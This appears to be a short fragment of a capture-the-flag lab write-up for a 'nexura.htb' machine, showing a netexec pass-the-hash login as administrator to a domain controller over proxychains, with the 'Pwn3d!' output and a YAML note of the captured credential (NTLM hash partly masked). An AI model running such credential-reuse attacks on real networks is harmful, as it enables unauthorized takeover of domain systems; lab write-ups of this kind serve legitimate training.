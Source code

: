 ```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains -q netexec smb 172.16.119.11 -u administrator -H '36e09***************************'

[SNIP]

SMB         172.16.119.11   445    DC01             [+] nexura.htb\administrator:36e09*************************** (Pwn3d!)
```

```yaml
credentials:
    username: nexura.htb\Administrator
    NTLM hash: '36e09***************************'
    host: 172.16.119.11 (DC01)
    port: 445,3389,5985 (SMB,RDP,WINRM)
```

---
---
